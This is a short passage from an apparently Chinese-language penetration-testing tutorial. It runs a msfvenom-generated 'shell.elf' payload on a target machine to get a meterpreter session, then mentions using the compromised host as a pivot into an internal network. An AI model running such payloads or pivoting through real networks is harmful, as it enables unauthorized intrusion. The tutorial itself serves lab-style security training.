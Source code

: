 ![ls比对文件大小](/img/02/02_比对文件大小.png)

## 执行

赋予 `shell.elf` 执行权限并运行

```bash
chmod +x ./shell.elf;./shell.elf
```

之后即可在 msfvenom 中看到 shell.elf 的请求

![控制成功](/img/02/03_控制成功.png)


获取 meterpreter 

## meterpreter 作用

发现靶机后，存在内网情况下，该靶机有机会成为跳板机，需要升级终端
